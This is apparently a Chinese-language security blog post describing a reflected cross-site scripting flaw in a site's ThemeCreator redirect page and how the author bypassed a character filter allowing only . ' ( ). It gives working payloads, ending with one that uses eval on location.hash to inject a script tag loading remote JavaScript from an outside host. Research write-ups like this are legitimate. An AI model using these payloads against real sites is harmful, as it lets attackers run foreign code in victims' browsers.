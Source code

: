 ```yaml
---
layout: post
title: 原本丢掉的跨站漏洞 - JavaScript 特性利用
---
```

#### I.1

今天睡醒后我想到之前的“漏洞”好像可以利用特性让它变成真的漏洞，简单说下功能点。我在测试越权操作的过程中发现未登录的情况下访问创建主题的 URL 站点会进行跳转，为了看清源码使用 View-Source ，这里发现可控点为 c 参数。

[view-source:masaike/ThemeCreator/index.aspx?c=QAQ)QAQ(QAQ](view-source:masaike/ThemeCreator/index.aspx?c=QAQ\)QAQ\(QAQ)

    <script type="text/javascript">
    window.open('/login.aspx?burl=http%3a%2f%2fmasaike%2fThemeCreator%2findex.aspx%3fc%3dQAQ)QAQ(QAQ','_top');
    </script>

对特殊字符进行测试（ `> , < | () : ' " \ % ; & 空格 ...` ）后发现仅允许使用 ` . ' () ` 这4个特殊字符，由于我们得知单引号可以使用，所以思考这里直接闭合 `window.open('/url?QAQ')` 参数然后注入恶意代码便完成了这次攻击，但由于 JS 的 解析错误处理顺序如果不闭合前面语句及注释后面语句是无法执行我们注入的恶意代码的。例如：

    window.open('/1231')alert(1)1','_top');
    window.open('/1231');alert(1)1','_top');
    window.open('/1231')alert(1)//1','_top');

#### II.2

在能闭合 window.open(' 但不能 ; 结束语句的情况下，虽然不能使用其他字符，但这里通过利用 JavaScript 的特性也可以做到执行注入的 JS 代码。

> 常量或已声明的变量及函数+(jscode) 经过解释器的优先级会先执行(jscode)随后报错：VM98:2 Uncaught TypeError: xxxx is not a function(…) 

- 1(console.log(1))
- a(console.log(1))
- document(console.log(1))

上面 3 种情况对应运行结果：

![http://ww3.sinaimg.cn/large/c334041bjw1f34d050c83j20my09o0u9.jpg](http://ww3.sinaimg.cn/large/c334041bjw1f34d050c83j20my09o0u9.jpg)

可以看到在触发 `Uncaught TypeError: xxxx is not a function(…) ` 之前我们优先执行了注入的代码，但如果 `xxx is not defined` 优先级会触发报错且不运行注入代码，在这种漏洞环境因素下我们可以利用如上特性来闭合（不结束语句）执行注入的代码，虽然它依旧会报错。

> 上面结论是我得出的，可能会存在误解 xD

e.g:

    ')(confirm(1))('1111

View-Source:

    <script type="text/javascript">window.open('/login.aspx?burl=masaike%2fThemeCreator%2findex.aspx%3fc%3d')(confirm(1))('1111','_top');</script>

Result:

![http://ww2.sinaimg.cn/large/c334041bjw1f34d7d9ymzj20oa0203yq.jpg](http://ww2.sinaimg.cn/large/c334041bjw1f34d7d9ymzj20oa0203yq.jpg)

#### III.3

在运行完毕我们注入的代码后，随后解释器触发了异常，但没有关系代码已经得到了执行 :)

现在开始编写 Payload 以便加载恶意的远程 JS 代码，我想了下准备使用其中一种：

- eval(String.fromCharCode(97,108,101,114,116,40,49,41))
- document.body.appendChild(...
- eval(location.hash.split('#')[1])
- ...

但开始说到逗号，空格等特殊字符均被过滤，我们仅仅使用的【特殊字符】只有：`' () .` ，这里我采用了最后一种，虽然 split()[] 我们无法使用，但是可以使用 `location.hash.substr(1)` 来包含我们注入在 hash 上的恶意代码。

最终 Payload 如下 [Work: Chrome:Version 49.0.2623.112]：

    ')(eval(location.hash.substr(1)))('#a=document;a.write('<body>');a.body.appendChild(a.createElement(/script/.source)).src='http://rm-rf.gg'

    /index.aspx?c=%27)(eval(location.hash.substr(1)))(%271111#a=document;a.write('<body>');a.body.appendChild(a.createElement(/script/.source)).src='http://rm-rf.gg'

![http://ww1.sinaimg.cn/large/c334041bjw1f34diku8uej215o09gwfx.jpg](http://ww1.sinaimg.cn/large/c334041bjw1f34diku8uej215o09gwfx.jpg)
